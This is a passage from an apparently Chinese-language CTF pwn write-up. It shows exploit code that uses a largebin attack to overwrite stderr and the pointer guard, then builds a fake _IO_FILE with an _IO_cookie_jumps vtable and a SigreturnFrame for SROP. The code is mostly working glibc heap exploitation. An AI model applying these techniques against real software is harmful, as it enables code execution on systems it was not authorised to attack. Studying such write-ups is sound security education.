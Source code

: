 [![](assets/1698893163-0644d387d7c02bae85895da8d694d276.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231028190023-315ab050-7581-1.png)

然后进行 largebin attack

```plain
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(libc.sym['stderr'] - 0x20))
add(5, 0x430)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(0, 0x410)
add(2, 0x420)
run_opcode()

delete(2)
add(6, 0x430)
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(guard - 0x20))
add(7, 0x450)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(2, 0x420)
add(0, 0x410)
```

分别将 stderr 和 guard 改为堆地址

构造 fake\_IO 以及 SROP 链

```plain
next_chain = 0
srop_addr = heap_base + 0x2ae0 + 0x10
fake_IO_FILE = 2 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')
fake_IO_FILE += p64(next_chain)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, '\x00')
fake_IO_FILE += p64(heap_base)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xB0, '\x00')
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xC8, '\x00')
fake_IO_FILE += p64(libc.sym['_IO_cookie_jumps'] + 0x40)  # vtable
fake_IO_FILE += p64(srop_addr)  # rdi
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(gadget_addr ^ (heap_base + 0x22a0), 0x11))

fake_frame_addr = srop_addr
frame = SigreturnFrame()
frame.rdi = fake_frame_addr + 0xF8
frame.rsi = 0
frame.rdx = 0x100
frame.rsp = fake_frame_addr + 0xF8 + 0x10
frame.rip = pop_rdi_addr + 1  # : ret

```